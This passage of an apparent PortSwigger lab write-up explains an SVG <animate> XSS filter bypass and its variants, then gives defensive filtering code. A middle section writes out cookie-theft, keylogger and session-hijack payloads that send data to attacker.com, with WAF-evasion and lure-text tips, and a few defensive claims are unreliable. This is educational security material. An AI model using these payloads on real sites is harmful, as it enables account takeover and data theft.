- (Warning sign for users who pay attention!)

User clicks "Click me":
1. Click event fires on <text> element
2. Event bubbles to parent <a> element
3. Browser default action: Navigate to href
4. href = "javascript:alert(1)"

Phase 7: JavaScript Execution
Browser processes javascript: URL:
1. Recognizes javascript: scheme
2. Extracts code: alert(1)
3. Evaluates in page context
4. Executes alert(1)

Alert dialog:
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ 1                                  │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘

Phase 8: Lab Detection
PortSwigger monitoring:
- Detects alert() was called
- Verifies from user-provided payload
- Confirms "Click" text present
- Marks lab as solved! 🎉

The complete bypass:
Filter time (T0): <a> has no href → Safe! ✓
Runtime (T1): <animate> sets href → Dangerous! ⚠️
Time gap: Security bypass! 💥
```

### **Why Filters Miss This Attack**

```js
Filter design assumptions:

Assumption 1: Static analysis is sufficient
Filter logic:
"If I check attributes at parse time,
 they won't change at runtime"

Reality:
SVG animations modify attributes dynamically
After filtering has completed
Assumption violated! ❌

Assumption 2: Whitelisting tags is safe
Filter logic:
"If I only allow safe tags,
 no XSS is possible"

Reality:
Even "safe" SVG tags can be combined
To create dangerous behavior
Assumption violated! ❌

Assumption 3: Blocking href prevents javascript: URLs
Filter logic:
"If <a> tags can't have href attributes,
 they can't navigate to javascript: URLs"

Reality:
href can be added dynamically
Via SVG animation elements
Assumption violated! ❌

Assumption 4: Animation is presentation only
Filter logic:
"<animate> just changes visual properties,
 it can't affect security-sensitive attributes"

Reality:
<animate> can target ANY attribute
Including href, xlink:href, and more
Assumption violated! ❌

Why static analysis fails:

Static filter sees:
<svg>
    <a>  ← No href attribute
        <animate attributeName="href" values="javascript:alert(1)"/>
        <text>Click me</text>
    </a>
</svg>

Static analysis:
├── Scan all tags ✓
├── Scan all attributes ✓
├── Check against rules ✓
└── All checks pass ✓

What static analysis misses:
├── Runtime attribute modification
├── Dynamic DOM manipulation
├── Animation effects
└── Time-of-use behavior

Dynamic runtime sees:
<svg>
    <a href="javascript:alert(1)">  ← Added by animation!
        <animate attributeName="href" values="javascript:alert(1)"/>
        <text>Click me</text>
    </a>
</svg>

The gap:
└── Filter analyzes: Parse-time state
    └── Browser uses: Runtime state
        └── State changes: Security bypass! 💥

Why this is hard to defend:

Challenge 1: Blocking <animate> breaks legitimate use
Many sites use SVG animations
For graphics, logos, visualizations
Blocking breaks functionality ❌

Challenge 2: Validating attributeName is complex
<animate> can target hundreds of attributes
Some safe, some dangerous
Hard to classify comprehensively

Challenge 3: Context-dependent security
Same attribute safe in one context
Dangerous in another context
Example: href safe on <use>, dangerous on <a>

Challenge 4: Evolution of standards
New SVG features added over time
Filters may not know about them
Playing catch-up forever!

The fundamental issue:
└── Client-side rendering is dynamic
    └── Server-side filtering is static
        └── Mismatch creates vulnerabilities! ⚠️
```

### **SVG Namespace and DOM Interaction**

```HTML
Understanding SVG in HTML:

SVG namespace:
xmlns="http://www.w3.org/2000/svg"

In HTML5:
No namespace declaration needed!
<svg> tag automatically uses SVG namespace
Browser handles it correctly ✓

DOM structure:
HTML elements: HTMLElement
SVG elements: SVGElement

Example:
<div> → HTMLDivElement
<svg> → SVGSVGElement
<a> (in HTML) → HTMLAnchorElement
<a> (in SVG) → SVGAElement

Key difference:
HTMLAnchorElement and SVGAElement
Both represent <a> tags
But different objects!
Different behaviors!

SVGAElement specifics:
Inherits from SVGElement
Has href property (SVGAnimatedString)
Supports xlink:href (legacy)
Works with SVG animations
Different rendering context

Attribute handling:
HTML <a>:
<a href="url">Text</a>
href is direct attribute
String value

SVG <a>:
<a href="url">...</a>
href is animated attribute
Can be modified by <animate>!

This is key to attack:
└── SVG <a> href designed to be animated
    └── <animate> can modify it
        └── Including setting javascript: URL
            └── Security issue! ⚠️

Browser rendering pipeline:

Step 1: Parse HTML
Browser: "I see <svg> tag"
Action: Switch to SVG parser
Result: SVG subtree created

Step 2: Create DOM
Browser: "Creating SVG elements"
Action: Instantiate SVG* objects
Result: SVGAElement, SVGTextElement, etc.

Step 3: Apply styles
Browser: "Computing CSS"
Action: Apply styles to SVG elements
Result: Visual properties set

Step 4: Process animations
Browser: "Found <animate> elements"
Action: Start animation engine
Result: Attributes modified dynamically!

Step 5: Render
Browser: "Painting to screen"
Action: Draw SVG graphics
Result: Visual output

Step 6: User interaction
Browser: "Click detected"
Action: Process href navigation
Result: JavaScript executes! 💥

Cross-namespace interaction:
HTML can contain SVG ✓
SVG can contain HTML ✗ (mostly)

Allowed:
<div>
    <svg>
        <a>
            <text>Link</text>
        </a>
    </svg>
</div>

Not typically allowed:
<svg>
    <div>Text</div>  ← Invalid!
</svg>

Exception: foreignObject
<svg>
    <foreignObject>
        <div>Valid HTML here!</div>
    </foreignObject>
</svg>

This allows HTML inside SVG
But not relevant for this attack

Security boundary:
No security boundary between HTML and SVG!
Both in same origin
Same JavaScript context
Same DOM
Can interact freely! ⚠️

This means:
└── XSS in SVG = XSS in page
    └── Full access to cookies, DOM, etc.
        └── Complete compromise! 💥
```

---

## 🚀 **Attack Variations**

### **Variation 1: Using `<set>` Instead of `<animate>`**

```js
Alternative: SVG <set> element

The <set> element:
└── Similar to <animate>
    └── Sets attribute to fixed value
        └── Simpler syntax

Syntax:
<set attributeName="href" to="javascript:alert(1)"/>

Complete payload:
<svg><a><set attributeName="href" to="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>

How it works:

<set> vs <animate>:
<animate values="v1;v2;v3"> - Multiple values, animated
<set to="value"> - Single value, instant

For XSS:
Both achieve same result!
<set> is simpler
No animation timing needed
Instant href assignment ✓

Advantages of <set>:
✓ Simpler syntax
✓ Less characters
✓ Easier to understand
✓ Same bypass effect

Disadvantages:
✗ Less obfuscation
✗ Might be filtered if <set> specifically blocked

Usage:
If lab allows <set> element:
Use it for cleaner payload! ✓

If <set> blocked but <animate> allowed:
Use <animate> as primary technique
```

---

### **Variation 2: Using `xlink:href` Instead of `href`**

```js
Legacy SVG attribute: xlink:href

Background:
SVG 1.1: Used xlink:href for links
SVG 2.0: Uses href directly
Browsers support both!

Payload with xlink:href:
<svg><a><animate attributeName="xlink:href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>

Why this might work better:

Filter may check:
- attributeName="href" → Block ❌

But miss:
- attributeName="xlink:href" → Allow ✓

Both work in browser!
xlink:href is legacy but still supported
Provides alternative bypass route! 💡

Browser compatibility:
All modern browsers support xlink:href
Treated same as href
No difference in behavior ✓

Namespace consideration:
Full syntax:
xmlns:xlink="http://www.w3.org/1999/xlink"

But in HTML5:
xlink: prefix works without declaration!
Browser handles automatically ✓

Complete alternative payload:
<svg><a><animate attributeName="xlink:href" values="javascript:alert(1)"/><text x="20" y="20">Click me</text></a></svg>

When to use:
If href is specifically filtered
Try xlink:href as backup!
May bypass targeted filters ✓
```

---

### **Variation 3: Multiple Values for Obfuscation**

```js
Obfuscating with multiple values:

Basic payload:
values="javascript:alert(1)"

Obfuscated payload:
values="https://safe.com;javascript:alert(1);https://safe.com"

Why this helps:

WAF analysis:
Sees: values="https://safe.com;javascript:alert(1);https://safe.com"
Regex check: /^https:\/\//
Result: "Starts with https://, seems safe!" ✓
Allows through!

Browser animation:
Cycles through values:
1. https://safe.com (safe)
2. javascript:alert(1) (malicious!)
3. https://safe.com (safe)

Timing:
If no duration specified:
→ Uses last value permanently!

If duration specified:
→ Cycles through values
→ Eventually reaches javascript:alert(1)

Better obfuscation:
values="https://example.com?x=1&y=2;javascript:alert(1);https://example.com/safe"

Looks like:
- Complex safe URL
- With query parameters
- Multiple safe-looking values

WAF thinks:
"Just URL parameters and safe URLs"
Allows through! ✓

Advanced obfuscation:
values="https://portswigger.net?search=test;javascript:alert(1);0"

Why this works:
- Starts with known-safe domain
- Semicolon looks like URL parameter
- javascript:alert(1) buried in middle
- Ends with number (looks like parameter)

Even better:
values="https://portswigger.net?a=b&semi;javascript:alert(1)&semi;c=d"

Using HTML entities:
&semi; = semicolon
Hides structure from regex!
Browser decodes and processes correctly ✓

Complete payload:
<svg><a><animate attributeName="href" values="https://portswigger.net?x=1&semi;javascript:alert(1)&semi;y=2"/><text x="20" y="20">Click me</text></a></svg>

Benefits:
✅ Bypasses simple regex
✅ Looks less suspicious
✅ Multiple decoy values
✅ WAF evasion! ✓
```

---

### **Variation 4: Using `dur` and `repeatCount`**

```js
Controlling animation timing:

Attributes:
- dur: Duration of animation
- repeatCount: How many times to repeat

Example:
<animate 
    attributeName="href" 
    values="https://safe.com;javascript:alert(1)" 
    dur="5s" 
    repeatCount="indefinite"/>

How it works:

Timeline:
0s - 2.5s: href = "https://safe.com"
2.5s - 5s: href = "javascript:alert(1)"
5s: Repeat from start

Indefinite repeat:
Cycles forever:
safe → malicious → safe → malicious → ...

User clicks during malicious phase:
Alert executes! 💥

Why use this:

Advantage 1: Bypasses static analysis
Filter sees: Multiple URLs
Thinks: "Just animating between URLs"
Misses: javascript: URL in middle!

Advantage 2: Timing attack
Wait for right moment
User more likely to click during stable phase
Increases success rate ✓

Advantage 3: Obfuscation
Looks like legitimate animation
Less suspicious than direct javascript:
Evades detection! 💡

Alternative: freeze on last value
<animate 
    attributeName="href" 
    values="https://safe.com;javascript:alert(1)" 
    dur="0.1s" 
    fill="freeze"/>

Behavior:
0.0s - 0.05s: href = safe URL (brief)
0.05s - 0.1s: href = javascript:alert(1)
0.1s+: Frozen on javascript:alert(1) ✓

User sees:
Permanent malicious href
Click anytime: Alert! 💥

Shortest possible:
<animate 
    attributeName="href" 
    values="x;javascript:alert(1)" 
    dur="0.01s" 
    fill="freeze"/>

Almost instant:
0.01s transition
Freezes on malicious URL
Effectively immediate! ✓
```

---

### **Variation 5: Multiple Animations**

```js
Chaining multiple animations:

Payload:
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert(1)"/>
        <animate attributeName="fill" values="red;blue"/>
        <text x="20" y="20">Click me</text>
    </a>
</svg>

Why multiple animations:

Purpose 1: Distraction
One animation is malicious (href)
Others are benign (fill, opacity, etc.)
Filter may focus on benign ones
Miss the malicious one! 💡

Purpose 2: Redundancy
<animate attributeName="href" values="javascript:alert(1)"/>
<set attributeName="href" to="javascript:alert(1)"/>

Both set href
If one blocked, other succeeds!
Redundant attack vectors ✓

Purpose 3: Complex timing
<animate id="a1" attributeName="fill" values="red" dur="1s"/>
<animate attributeName="href" values="javascript:alert(1)" begin="a1.end"/>

Second animation waits for first
Delayed execution
Evades real-time scanning! 💡

Advanced example:
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert(document.domain)"/>
        <animate attributeName="opacity" values="0;1" dur="2s"/>
        <animate attributeName="font-size" values="10;20" dur="2s"/>
        <text x="20" y="20">Click me</text>
    </a>
</svg>

Effects:
- href set to javascript:
- Text fades in (opacity 0→1)
- Text grows (font-size 10→20)
- Looks like normal animation
- Malicious href hidden among benign! ✓
```

---

### **Variation 6: Alternative Click Targets**

```html
Different clickable elements:

Option 1: Circle
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert(1)"/>
        <circle cx="50" cy="20" r="15" fill="red"/>
        <text x="30" y="25" fill="white">Click</text>
    </a>
</svg>

User sees:
Red circle with "Click" text inside
Entire circle is clickable! ✓

Option 2: Rectangle
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert(1)"/>
        <rect x="0" y="0" width="100" height="30" fill="blue"/>
        <text x="20" y="20" fill="white">Click me</text>
    </a>
</svg>

User sees:
Blue button-like rectangle
With white text
Looks like button! ✓

Option 3: Path (custom shape)
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert(1)"/>
        <path d="M10,10 L50,10 L30,30 Z" fill="green"/>
        <text x="20" y="20" fill="white">Click</text>
    </a>
</svg>

User sees:
Custom triangle shape
Entire shape clickable! ✓

Option 4: Image
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert(1)"/>
        <image href="/images/button.png" width="100" height="30"/>
        <text x="20" y="20">Click</text>
    </a>
</svg>

User sees:
Image that looks like button
Clickable image! ✓

Advantage of different shapes:
✅ More believable social engineering
✅ Can match site design
✅ Looks more legitimate
✅ Higher click rate! ✓
```

---

### **Variation 7: Real-World Exploitation Payloads**

```html
Beyond alert(1):

Payload 1: Cookie theft
<svg><a><animate attributeName="href" values="javascript:fetch('https://attacker.com/steal?c='+document.cookie)"/><text x="20" y="20">Click me</text></a></svg>

Execution:
1. User clicks
2. JavaScript executes
3. fetch() sends cookie to attacker
4. Cookie stolen! 💀

Payload 2: Redirect attack
<svg><a><animate attributeName="href" values="javascript:window.location='https://attacker.com/phishing'"/><text x="20" y="20">Click me</text></a></svg>

Execution:
1. User clicks
2. Redirects to phishing site
3. User enters credentials
4. Credentials stolen! 💀

Payload 3: Keylogger
<svg><a><animate attributeName="href" values="javascript:document.onkeypress=e=>fetch('https://attacker.com/log?k='+e.key)"/><text x="20" y="20">Click me</text></a></svg>

Execution:
1. User clicks
2. Keylogger installed
3. Every keystroke sent to attacker
4. Long-term data theft! 💀

Payload 4: Session hijacking
<svg><a><animate attributeName="href" values="javascript:fetch('https://attacker.com/steal',{method:'POST',body:document.cookie})"/><text x="20" y="20">Click me</text></a></svg>

Execution:
1. User clicks
2. Session cookie exfiltrated
3. Attacker gains session access
4. Account compromised! 💀

URL encoding note:
All these need proper URL encoding
For delivery via GET parameter
Use online encoder or script! ✓

Social engineering text:
Instead of "Click me", use:
- "Verify account"
- "Claim reward"
- "Download file"
- "Continue reading"
- Site-specific text

More convincing:
Higher click rate
More successful attack! 💡
```

---
---

## 🛡️ **Defensive Measures**

---

### **How to Prevent This Attack**

```js
Defense Layer 1: Block SVG Animation Elements

✅ SECURE - Filter out animation elements:

Blocklist approach:
blocked_tags = [
    'animate',
    'animateMotion',
    'animateTransform',
    'set'
]

def filter_svg(html):
    for tag in blocked_tags:
        html = remove_tag(html, tag)
    return html

Why this works:
└── Removes the attack vector entirely
    └── No animations = No dynamic href
        └── Attack prevented! ✓

Trade-off:
✗ Breaks legitimate SVG animations
✗ May break site functionality
✗ Users complain about missing features

Better approach:
└── Allow animations on safe attributes only
    └── Block attributeName="href"
        └── Allow attributeName="fill", "opacity", etc.
            └── Functionality preserved! ✓

Implementation:
def filter_animate(element):
    attr_name = element.get_attribute('attributeName')
    dangerous = ['href', 'xlink:href', 'src', 'data']
    if attr_name in dangerous:
        element.remove()
    return element

Defense Layer 2: Validate attributeName

✅ SECURE - Whitelist safe attributes:

Safe attributes:
allowed_attributes = [
    'fill',
    'stroke',
    'opacity',
    'transform',
    'x', 'y',
    'width', 'height',
    'cx', 'cy', 'r'
]

Dangerous attributes:
blocked_attributes = [
    'href',
    'xlink:href',
    'src',
    'data',
    'onclick',
    'onload'
]

Filter logic:
def validate_animate(element):
    attr_name = element.get_attribute('attributeName')
    
    if attr_name in blocked_attributes:
        element.remove()
        return None
    
    if attr_name not in allowed_attributes:
        element.remove()
        return None
    
    return element

Why whitelist is better:
✓ Only allows known-safe attributes
✓ New dangerous attributes automatically blocked
✓ More secure than blacklist
✓ Defense in depth! ✓

Defense Layer 3: Block javascript: URLs Completely

✅ SECURE - Strip javascript: protocol:

URL validation:
def validate_url(url):
    dangerous_schemes = [
        'javascript:',
        'data:',
        'vbscript:',
        'file:'
    ]
    
    url_lower = url.lower().strip()
    
    for scheme in dangerous_schemes:
        if url_lower.startswith(scheme):
            return None  # Block!
    
    return url

Apply to all attributes:
def sanitize_attributes(element):
    for attr in element.attributes:
        value = element.get_attribute(attr)
        
        if is_url_attribute(attr):
            validated = validate_url(value)
            if validated:
                element.set_attribute(attr, validated)
            else:
                element.remove_attribute(attr)

URL attributes to check:
url_attributes = [
    'href',
    'xlink:href',
    'src',
    'data',
    'action',
    'formaction',
    'poster'
]

Defense Layer 4: Content Security Policy

✅ SECURE - Implement strict CSP:

CSP header:
Content-Security-Policy: 
    default-src 'self'; 
    script-src 'self' 'nonce-RANDOM123'; 
    object-src 'none';
    base-uri 'self';

What this blocks:
├── Inline event handlers
├── javascript: URLs (in some browsers)
├── eval() and Function()
├── External scripts from untrusted domains
└── Most XSS vectors! ✓

Note on javascript: URLs:
CSP doesn't block javascript: in href!
This is a known limitation
Still need other defenses! ⚠️

But CSP helps:
└── Reduces attack surface
    └── Blocks many other XSS vectors
        └── Defense in depth! ✓

Defense Layer 5: Output Encoding

✅ SECURE - Encode for HTML context:

Encoding function:
def encode_html(text):
    return (text
        .replace('&', '&amp;')
        .replace('<', '&lt;')
        .replace('>', '&gt;')
        .replace('"', '&quot;')
        .replace("'", '&#x27;'))

Result:
Input: <svg><a>Click</a></svg>
Output: &lt;svg&gt;&lt;a&gt;Click&lt;/a&gt;&lt;/svg;

Browser renders:
<svg><a>Click</a></svg>
└── As text, not as HTML!
    └── No execution! ✓

Disadvantage:
✗ Removes ALL HTML
✗ Can't allow ANY formatting
✗ Users can't use markup at all

When to use:
└── Comments, plain text fields
    └── Where HTML not needed
        └── Safest approach! ✓

Defense Layer 6: DOMPurify Library

✅ SECURE - Use battle-tested sanitizer:

JavaScript library:
import DOMPurify from 'dompurify';

Usage:
const dirty = '<svg><a><animate attributeName="href" values="javascript:alert(1)"/><text>Click</text></a></svg>';
const clean = DOMPurify.sanitize(dirty);

DOMPurify removes:
├── <animate> elements
├── javascript: URLs
├── Event handlers
├── Dangerous attributes
└── All XSS vectors! ✓

Result:
<svg><a><text>Click</text></a></svg>
└── Safe SVG preserved
    └── Malicious parts removed! ✓

Benefits:
✅ Actively maintained
✅ Comprehensive filtering
✅ Configurable policies
✅ Battle-tested in production
✅ Industry standard! ✓

Defense Layer 7: Disable SVG Entirely

✅ MOST SECURE - Remove SVG support:

If SVG not needed:
blocked_tags = ['svg']

def strip_svg(html):
    # Remove all <svg> tags
    return re.sub(r'<svg[^>]*>.*?</svg>', '', html, flags=re.DOTALL)

Why this works:
└── No SVG = No SVG attacks
    └── Simple and effective! ✓

When appropriate:
└── Comment systems
    └── Forums
        └── User-generated content where SVG not needed

Trade-off:
✗ Removes useful feature
✗ Users can't share SVG graphics
✗ May break legitimate use cases

Defense Layer 8: Server-Side Template Engine

✅ SECURE - Auto-escaping templates:

Using modern frameworks:
# React (auto-escapes)
<div>{userInput}</div>

# Vue (auto-escapes)
<div>{{ userInput }}</div>

# Django (auto-escapes)
<div>{{ user_input }}</div>

# Jinja2 (auto-escapes)
<div>{{ user_input }}</div>

These frameworks:
✓ Automatically escape HTML
✓ Prevent XSS by default
✓ Safe unless explicitly marked unsafe
✓ Industry best practice! ✓

Complete Defense Strategy:

Priority 1: Block animation elements
Priority 2: Validate attributeName
Priority 3: Block javascript: URLs
Priority 4: Implement CSP
Priority 5: Use DOMPurify
Priority 6: Regular security testing

All layers together = Maximum security! 🛡️
```

### **Secure Code Example**

```python
# ✅ SECURE - Complete implementation

from flask import Flask, request, escape
from bs4 import BeautifulSoup
import re

app = Flask(__name__)

class SVGSanitizer:
    """
    Secure SVG sanitizer
    """
    
    # Completely blocked elements
    BLOCKED_ELEMENTS = {
        'script',
        'iframe',
        'object',
        'embed',
        'animate',        # Block animation!
        'animateMotion',  # Block animation!
        'animateTransform', # Block animation!
        'set'             # Block animation!
    }
    
    # Blocked attributes on any element
    BLOCKED_ATTRIBUTES = {
        'onload',
        'onerror',
        'onclick',
        'onmouseover',
        'onfocus',
        'onblur'
    }
    
    # Dangerous URL attributes
    URL_ATTRIBUTES = {
        'href',
        'xlink:href',
        'src',
        'data',
        'action'
    }
    
    def sanitize(self, html):
        """
        Sanitize HTML/SVG content
        """
        # Parse HTML
        soup = BeautifulSoup(html, 'html.parser')
        
        # Remove blocked elements
        for tag_name in self.BLOCKED_ELEMENTS:
            for tag in soup.find_all(tag_name):
                tag.decompose()
        
        # Check all remaining elements
        for tag in soup.find_all():
            # Remove blocked attributes
            for attr in list(tag.attrs.keys()):
                if attr.lower() in self.BLOCKED_ATTRIBUTES:
                    del tag[attr]
                
                # Validate URL attributes
                if attr.lower() in self.URL_ATTRIBUTES:
                    url = tag[attr]
                    if not self.is_safe_url(url):
                        del tag[attr]
        
        return str(soup)
    
    def is_safe_url(self, url):
        """
        Check if URL is safe
        """
        url_lower = url.lower().strip()
        
        # Block dangerous schemes
        dangerous = [
            'javascript:',
            'data:',
            'vbscript:',
            'file:'
        ]
        
        for scheme in dangerous:
            if url_lower.startswith(scheme):
                return False
        
        return True

@app.route('/search')
def search():
    # Get user input
    query = request.args.get('search', '')
    
    # Sanitize input
    sanitizer = SVGSanitizer()
    safe_query = sanitizer.sanitize(query)
    
    # Further escape for HTML context
    safe_query = escape(safe_query)
    
    # Return secure response
    return f"""
    <!DOCTYPE html>
    <html>
    <head>
        <meta http-equiv="Content-Security-Policy" 
              content="default-src 'self'; script-src 'self'">
        <title>Search Results</title>
    </head>
    <body>
        <h1>Search Results</h1>
        <p>You searched for: {safe_query}</p>
    </body>
    </html>
    """

# Security headers
@app.after_request
def add_security_headers(response):
    response.headers['X-Frame-Options'] = 'DENY'
    response.headers['X-Content-Type-Options'] = 'nosniff'
    response.headers['X-XSS-Protection'] = '1; mode=block'
    response.headers['Content-Security-Policy'] = "default-src 'self'"
    return response

# Why this is secure:
# ✅ Blocks <animate> element (attack vector)
# ✅ Blocks javascript: URLs
# ✅ Removes event handlers
# ✅ Validates all URL attributes
# ✅ CSP headers (defense in depth)
# ✅ Output escaping
# ✅ Multiple protection layers! 🛡️

# Our attack would fail because:
# 1. <animate> element removed
# 2. javascript: URL blocked
# 3. No dynamic href possible
# 4. XSS prevented! ✓
```

---
